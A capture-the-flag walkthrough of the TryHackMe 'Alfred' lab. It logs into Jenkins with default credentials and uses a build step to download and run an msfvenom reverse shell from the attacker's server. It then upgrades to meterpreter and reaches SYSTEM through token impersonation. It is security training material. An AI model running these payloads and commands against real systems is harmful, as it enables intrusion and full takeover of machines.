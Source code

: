 # Alfred

Room: https://tryhackme.com/room/alfred

## Recon
Since as the task description highlights, the server doesn't respond to ICMP requests, we need to add `-Pn` to nmap:   
`sudo nmap -Pn -T5 -sV [IP]` which gives us the following:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-13 00:18 CEST
Nmap scan report for 10.10.253.76
Host is up (0.072s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 381.55 seconds
```

Looking at the webserver there is nothing interesting, may do a gobuster enumeration later if needed.

Looking at port 8080 however gives us a Jenkins login screen.

Let's try some weak credentials:
 - the default `admin:password` is not working
 - a second try with `admin:admin` however is a success, we don't need to brute force

## Getting a shell

Ok, so we are in jenkins, so let's find a way to gain access to a shell.

We could start by looking up exploits, but a quick look around in the project gives us this:
![image](https://github.com/dudasaron/WriteUps/assets/6893357/b0ea6bdc-7ab8-4dd6-be64-73a94ce04924)
 
 So it looks like we just need to prepare our payload and we can run it from here.

 We can see from the port scanning, that the server runs IIS, so it's safe to guess it's a windows machine, so `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[OUR IP] LPORT=4444 -f exe -o RevShell.exe`
 
 So let's start a webserver to serve the file: `python -m http.server 9000`
 
 And don't forget our listener: `nc -nvlp 4444`

After a little bit of trial and error this is what worked: 
```cmd
whoami
: Download the file
powershell -c "(New-Object System.Net.WebClient).DownloadFile(\"http://[your ip]:9000/RevShell.exe\", \"RevShell.exe\")"
: Make it executable
icacls RevShell.exe /grant Everyone:F
: And run it
start RevShell.exe 
```

And go back to the project in Jenkins and click on "Build now" from the left menu. You may check the console outpout if you open the build.

So we have a user shell on the machine: 
```cmd
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Jenkins\workspace\project>whoami
whoami
alfred\bruce

C:\Program Files (x86)\Jenkins\workspace\project>
```

Only thing left for this block is to get our user flag: `more c:\Users\bruce\Desktop\user.txt`


## Upgrading to meterpreter

Let's create our pmeterpreter payload as prompted by the task description: `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o meterpreter-shell.exe`. Make sure to use a different port then your original reverse shell!

And start our python http server same as before if it's not running still.

Then download same as before: `powershell "(New-Object System.Net.WebClient).Downloadfile('http://[IP]:9000/meterpreter-shell.exe','meterpreter-shell.exe')"`

Let's not forget to start the listener in the msfconsole: 
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [your ip]
set LPORT [port set in msfvenom]
run
```

Now we can start the connection with `start meterpreter-shell.exe` on our initial reverse shell. And now we should receive the meterpreter session in msfconsole.

## Privilege escalation

First let's check our privileges: `whoami /priv`. (Either in the original command line, or start a shell in meterpreter by `shell`)
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
...
SeDebugPrivilege                Debug programs                            Enabled 
...
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
...
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
...
```
(Disabled privileges are omitted here)

What's important for us here is the `SeDebugPrivilege` and the `SeImpersonatePrivilege`.

Let's load the [incognito module](https://www.offsec.com/metasploit-unleashed/fun-incognito/) to exploit these privileges.

To check what is available, run `list_tokens -g`: 
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available
```

Let's try to with `BUILTIN\Administrators`: `impersonate_token "BUILTIN\Administrators"` and check if everything as should be with `getuid`.

To solidify our access and ensure we have not only have a privileged token, but we are running as a privileged user too, find a process and migrate to it: run `ps` to see the running processes.
```
Process List
============

 PID   PPID  Name                    Arch  Session  User                          Path
 ---   ----  ----                    ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                  x64   0
...
 1212  668   spoolsv.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
...
 2956  524   conhost.exe             x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2964  668   TrustedInstaller.exe    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 3040  668   svchost.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
```

Let's pick a process with `NT AUTHORITY\SYSTEM` as User and run `migrate [PID]`. In this case let's pick `spoolsv.exe`.

Now we can grab our root flag too: `cat c:/Windows/System32/config/root.txt` (Note that in meterpreter we need to use the unix styled forward slashes, instead of the windows styled backslashes)

## Notes

We probably should have started with meterpreter payload in the _Getting a shell_ section, but for the sake of practice we started out with a regular reverse cmd shell.

